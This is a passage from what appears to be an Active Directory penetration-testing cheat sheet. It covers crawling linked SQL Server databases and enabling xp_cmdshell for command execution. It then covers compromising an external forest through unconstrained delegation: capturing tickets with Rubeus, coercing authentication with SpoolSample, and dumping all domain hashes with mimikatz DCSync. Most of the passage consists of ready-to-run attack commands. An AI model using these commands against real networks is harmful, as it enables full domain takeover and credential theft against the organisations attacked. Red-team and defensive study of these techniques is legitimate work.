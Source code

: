 Then we can use queries to enumerate other links from the linked Database:

```
#Manualy:
select * from openquery("LinkedDatabase", 'select * from master..sysservers')
     
#PowerUpSQL (Will Enum every link across Forests and Child Domain of the Forests):
Get-SQLServerLinkCrawl -Instance <SPN> -Verbose
     
#Then we can execute command on the machine's were the SQL Service runs using xp_cmdshell
#Or if it is disabled enable it:
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "SPN"
```

Query execution:

```
Get-SQLServerLinkCrawl -Instace <SPN> -Query "exec master..xp_cmdshell 'whoami'"
```

#### **Breaking Forest Trusts**

_WUT IS DIS?:_\
_TL;DR_\
_If we have a bidirectional trust with an external forest and we manage to compromise a machine on the local forest that has enabled unconstrained delegation (DCs have this by default), we can use the printerbug to force the DC of the external forest’s root domain to authenticate to us. Then we can capture it’s TGT, inject it into memory and DCsync to dump it’s hashes, giving ous complete access over the whole forest._

Tools we are going to use:

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [SpoolSample](https://github.com/leechristensen/SpoolSample)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)

Exploitation example:

```
#Start monitoring for TGTs with rubeus:
Rubeus.exe monitor /interval:5 /filteruser:target-dc$

#Execute the printerbug to trigger the force authentication of the target DC to our machine
SpoolSample.exe target-dc$.external.forest.local dc.compromised.domain.local

#Get the base64 captured TGT from Rubeus and inject it into memory:
Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>

#Dump the hashes of the target domain using mimikatz:
lsadump::dcsync /domain:external.forest.local /all 
```

Detailed Articles:

* [Not A Security Boundary: Breaking Forest Trusts](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)


